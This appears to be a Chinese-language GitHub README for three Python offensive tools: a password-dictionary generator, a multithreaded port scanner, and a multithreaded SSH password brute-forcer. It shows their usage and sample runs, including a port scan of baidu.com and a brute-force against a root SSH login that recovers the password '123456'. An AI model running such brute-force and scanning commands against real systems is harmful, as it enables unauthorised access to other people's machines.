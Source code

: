 
### createDict.py 生成一个简单的密码破解字典
```
python createDict.py 

按ctrl+c 停止生成
```

### PortScan.py 多线程端口扫描器
```
More Help: PortScan.py -h

测试:
	python PortScan.py -H www.baidu.com -p 80 443 110
	➜  py python PortScan.py -H www.baidu.com -p 80 443 110 
		[+] Scan Results for: 119.75.218.70
		Scanning port 443
		Scanning port 110
		Scanning port 80
		[+]443/tcp open
		[+] HTTP/1.1 302 Moved Temporarily
		Server: bfe/1.0.8.18
		Date: Sun, 06 Nov 2016 08:43:40 GMT
		Content-T
		[-]110/tcp closed
		[-]80/tcp closed
	Also, You can local test , The python script support domain or ip mode
	Example:
		python PortScan.py -H 127.0.0.1 -p 80
```

### sshAttack.py 多线程ssh密码暴力破解
```
测试：
	➜  py python sshAttack.py -h                                                    
		Usage: -H <target host> -u <user> -f <password list>

		Options:
		  -h, --help     show this help message and exit
		  -H TGTHOST     specify target host
		  -f PASSWDFILE  specify password file
		  -u USER        specify the user
		  -c COUNT       specify the max ssh connect count , default 5
	
	py python sshAttack.py -H 192.168.2.201 -u test -f /Users/lock/1.txt -c 20
	-c 用户测试指定ssh链接数，具体根据ssh config 文件判断

例：
➜  py python sshAttack.py -H 192.168.1.100 -u root -f password.md -c 20
		[-] Testing: 1111
		[-] Testing: 2222
		[-] Testing: 3333
		[-] Testing: 111111
		[-] Testing: 123123
		[-] Testing: 123456
		[+] Good , Key Found: 123456
```
